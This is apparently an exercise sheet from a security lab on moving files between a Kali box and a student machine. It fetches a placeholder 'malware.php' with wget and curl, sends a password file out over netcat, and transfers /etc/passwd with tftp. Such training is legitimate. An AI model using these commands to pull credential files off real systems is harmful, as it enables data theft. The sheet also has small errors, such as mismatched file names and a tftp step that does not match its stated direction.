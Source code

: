 ### 6. Downloading Files

#### Exercices
1. On your Kali machine, create a file named malware.php.
    ````
    echo "This is a malware file" > malware.php
    ````
    Then, in the same directory, ccreate a temporary server with python on port 5000.
    ````
    python3 -m http.server 5000
    ````
1. On your Student machine, download the malware.txt file with the wget command.
    > Your command : wget X.X.X.X:5000/malware.php

1. On your Student machine, download the malware.txt file with the cURL command.
    > Your command : curl X.X.X.X:5000/malware.php --output malware.php

1. On the student machine, create a file named password.txt and transfer it to your kali machine with netcat
    > Your commands : touch password.txt
    > ON RECEIVING END : nc -l -p 4444 > password.txt
    > ON SENDING END : nc -w 5 [destination] 4444 < password.txt

1. On the student machine,  transfer ``/etc/passwd`` file to your kali machine with tftp
    > Your commands :  tftp X.X.X.X
                       get /etc/passwd
                       

                        
